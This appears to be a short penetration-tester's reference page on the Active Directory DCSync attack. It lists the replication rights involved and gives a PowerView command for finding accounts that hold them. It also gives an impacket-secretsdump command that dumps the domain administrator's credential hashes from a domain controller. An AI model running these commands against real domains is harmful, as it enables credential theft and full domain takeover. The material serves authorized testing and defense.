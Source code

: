 # DCSync

## Information

Includes the following rights:

{% hint style="success" %}
* `GetChanges` → internal/technical permission name used in APIs and LDAP.
* `Replication-Directory-Changes` → friendly display name for the same permission.
{% endhint %}

1. `Replication-Get-Changes` / `GetChanges`
2. `Replication-Directory-Changes-All` / `GetChangesAll`&#x20;
3. `Replication-Directory-Changes-In-Filtered-Set` / `GetChangesInFilteredSet` (not always)

Default setting: Domain Admins, Enterprise Admins, Administrators, and Domain Controllers.

## Exploitation

{% tabs %}
{% tab title="PowerView" %}
Enumerate rights:

{% code overflow="wrap" %}
```powershell
Get-ObjectAcl -DistinguishedName "dc=x7331,dc=local" -ResolveGUIDs | ?{($_.ObjectType -match 'replication-get') -or ($_.ActiveDirectoryRights -match 'GenericAll') -or ($_.ActiveDirectoryRights -match 'WriteDacl')}
```
{% endcode %}
{% endtab %}

{% tab title="Impacket" %}
Dump NTDS:

{% code overflow="wrap" %}
```bash
impacket-secretsdump x7331.local/user:pass@<dc-ip> -just-dc-user administrator    
```
{% endcode %}
{% endtab %}
{% endtabs %}
